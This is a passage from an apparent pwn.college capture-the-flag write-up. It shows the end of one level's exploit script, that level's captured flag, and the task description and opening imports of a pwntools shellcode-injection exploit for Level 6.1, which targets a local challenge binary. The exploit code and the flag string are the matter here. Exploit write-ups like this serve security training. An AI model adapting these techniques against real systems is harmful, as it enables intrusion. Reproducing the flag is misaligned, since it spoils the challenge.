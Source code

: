 ```python
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(target)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{Uh7pFxiL1QPHZzDdWNmvsW7FH_Y.0VOyMDL5cTNxgzW}`

# Level 6.1

## Information

- Category: Pwn

## Description

> Write a full exploit involving injecting shellcode, reverse engineering, seccomp, and a method of tricking the challenge into executing your payload.

## Write-up

参见 [Level 6.0](#level-60)。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    asm,
    context,
    gdb,
    log,
    os,
    p32,
    p64,
    process,
    remote,
    shellcraft,
)

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-6-1"
HOST, PORT = "localhost", 1337

```